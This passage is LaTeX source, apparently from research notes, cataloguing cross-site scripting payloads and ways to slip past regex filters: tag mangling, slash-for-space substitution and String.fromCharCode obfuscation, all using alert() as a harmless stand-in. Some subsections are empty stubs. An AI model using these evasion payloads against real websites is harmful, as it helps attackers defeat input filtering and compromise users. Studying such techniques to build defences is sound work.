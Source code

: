 \subsection{XSS Payloads}

\subsubsection{Tag modification}
In a case, where regex filters are configured to look for html tags, modifying html tags might make a payload evade the filter. Possible modifications include:
\begin{itemize}
	\item prepending the tag with an additional \verb|<|: \verb|<<script>alert('XSS')</script>|
	\item omitting the closing tag: \verb|<script>alert('XSS')|
	\item using double open angle brackets: \verb|<iframe src=javascript:alert('XSS') <|
	\item using uncommon tags: \\ \verb|<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE>|
\end{itemize}
Technique by \cite{medium/allypetitt}

\subsubsection{Space replace}
A regex filter that is expecting a space inside a html tag at certain positions can be evaded by replacing the space with a \verb|/|.
For instance, \verb|<img src=1 onerror=alert('XSS')>| becomes \verb|<img/src=1/onerror=alert('XSS')>|.
Technique by \cite{medium/allypetitt}

\subsubsection{HTML encoding}
see the <a> thing


\subsubsection{From charcode}
String.fromCharCode(0x4c,105,0x6e,117,120) \cite{asecsite/jsobf1}

\subsubsection{String passing}

